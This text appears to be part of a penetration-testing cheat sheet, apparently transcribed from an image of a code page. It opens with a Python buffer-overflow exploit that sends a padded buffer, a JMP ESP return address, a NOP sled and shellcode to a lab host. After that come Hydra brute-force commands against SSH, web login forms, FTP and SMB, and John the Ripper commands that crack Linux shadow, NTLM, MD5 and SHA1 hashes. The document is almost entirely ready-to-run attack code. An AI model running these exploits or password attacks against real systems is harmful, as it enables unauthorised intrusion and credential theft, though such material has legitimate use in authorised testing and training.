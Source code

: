 ```python
buffer = "A" * 2288                          # Offset
buffer += struct.pack("<L", 0x625011AF)      # JMP ESP address in little-endian
buffer += "\x90" * 16                        # NOP sled
buffer += shellcode                          # Shellcode

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.10.10.10', 9999))
s.send(buffer)
s.close()

print("Exploit sent!")
```

## Password Attacks

### Hydra

#### SSH Brute Force
```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.10
```

#### Web Form Brute Force
```bash
# POST request
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.10 http-post-form "/login.php:username=^USER^&password=^PASS^:Login failed"

# GET request
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.10 http-get-form "/login.php:username=^USER^&password=^PASS^:Login failed"
```

#### FTP Brute Force
```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt ftp://10.10.10.10
```

#### SMB Brute Force
```bash
hydra -l Administrator -P /usr/share/wordlists/rockyou.txt smb://10.10.10.10
```

### John the Ripper

#### Hash Cracking
```bash
# Linux shadow file
unshadow /etc/passwd /etc/shadow > hashes.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

# Windows NTLM hashes
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

# MD5 hashes
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

# SHA1 hashes
john --format=raw-sha1 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```
